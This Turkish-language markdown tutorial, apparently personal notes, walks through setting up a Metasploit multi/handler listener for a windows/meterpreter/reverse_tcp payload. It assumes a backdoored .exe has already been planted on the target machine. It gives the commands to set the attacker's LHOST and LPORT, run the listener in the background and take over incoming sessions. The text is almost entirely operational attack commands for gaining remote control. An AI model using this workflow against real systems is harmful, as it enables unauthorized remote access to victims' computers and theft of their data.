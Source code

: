 - 💻 Hedef makineye **backdoor’lu `.exe` dosyası** yüklendikten sonra dinleme başlatılır.
---
### ⚙️ Handler Modülünü Açma

```bash
use exploit/multi/handler
```

- Dinleme için kullanılan özel modül ✅
---
### 🔍 Ayarları Görüntüleme

```bash
show options
```

- Mevcut payload ve ayarları listeler
---
### 🎯 Payload Seçimi

```bash
set payload windows/meterpreter/reverse_tcp
```

- 📡 **reverse_tcp** → hedef çalıştırdığında bize geri bağlanır
    
- 💠 **meterpreter** → gelişmiş kontrol imkanı sağlar
---
### 🌐 IP ve Port Ayarları

```bash
set LHOST <saldirgan_ip>
set LPORT 8080
```

- 🏠 **LHOST** → saldırganın IP adresi
    
- 🔌 **LPORT** → dinlenecek port (backdoor oluştururken verdiğin port ile aynı olmalı)
---
### 🚀 Dinlemeyi Başlatma

```bash
exploit -j -z
```

- 🔄 **-j** → arka planda çalıştır
    
- 💤 **-z** → session geldiğinde otomatik shell’e düşmeden bekle
---
### 🖥️ Oturum Yönetimi

- 📋 Açık oturumları görmek için:
```bash
sessions -l
```

- 🔗 Belirli bir oturuma bağlanmak için:
```bash
sessions -i 1
```
---
💡 **Özet:**

1. `use exploit/multi/handler` → dinleyici aç
    
2. `set payload ...` → payload belirle
    
3. `set LHOST / LPORT` → IP & port ayarla
    
4. `exploit -j -z` → dinleme başlat
    
5. Hedef çalıştırdığında → `sessions -l` & `sessions -i 1` ile erişim
---